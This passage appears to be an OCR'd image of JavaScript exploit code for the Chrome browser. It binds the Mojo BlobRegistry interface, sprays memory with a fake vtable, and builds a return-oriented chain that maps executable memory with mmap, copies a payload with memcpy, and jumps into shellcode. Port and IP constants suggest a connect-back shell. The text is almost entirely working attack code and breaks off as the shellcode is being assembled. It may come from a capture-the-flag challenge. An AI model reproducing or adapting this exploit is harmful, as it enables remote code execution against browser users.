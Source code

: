 ```javascript
  if(hleak == 0 || bleak == 0) {
    location.reload();
    return;
  }

  await wait(1 * 100);
 { 
    const blobRegistry = new blink.mojom.BlobRegistryPtr();
    Mojo.bindInterface(blink.mojom.BlobRegistry.name, mojo.makeRequest(blobRegistry).handle, "process");
    
    const spray = new BigUint64Array(0x1000 / 8);
    spray.fill(0x4141414141414141n);
    spray[0x30 / 8] = bleak + xchg;
    
    let idx = 0;
    spray[idx++] = prdi + bleak; 
    spray[idx++] = 0n;
    spray[idx++] = prdi + bleak; 
    spray[idx++] = 0n;
    // pop past vtable entry
    spray[idx++] = pr8rbp + bleak; 
    spray[idx++] = 0n;
    idx++; // vtable entry
    
    const addr = 0x1000000000n;

    // mmap(addr, 0x1000, 7, 32 | 2, -1, 0)
    spray[idx++] = prdi + bleak;
    spray[idx++] = 9n;
    spray[idx++] = prsi + bleak;
    spray[idx++] = addr;
    spray[idx++] = prdx + bleak;
    spray[idx++] = 0x1000n;
    spray[idx++] = prcx + bleak;
    spray[idx++] = 7n;
    spray[idx++] = pr8rbp + bleak;
    spray[idx++] = 32n | 2n;
    spray[idx++] = 0n;
    spray[idx++] = pr9 + bleak;
    spray[idx++] = 0xffffffffffffffffn;
    spray[idx++] = sysplt + bleak;
    spray[idx++] = prdi + bleak;
    spray[idx++] = 0n;

    // memcpy(addr, hleak + 0x200n, 0x800)
    spray[idx++] = prdi + bleak;
    spray[idx++] = addr;
    spray[idx++] = prsi + bleak;
    spray[idx++] = hleak + 0x200n;
    spray[idx++] = prdx + bleak;
    spray[idx++] = 0x800n;
    spray[idx++] = memcpyplt + bleak;

    // ret 2 shellcode
    spray[idx++] = addr;

    const PORT  = "\x7a\x69";
    const IPADDR = "\x7f\x00\x00\x01";
    let shellcode = "";
    
    // write(1, 0x100000100, 0x100)
```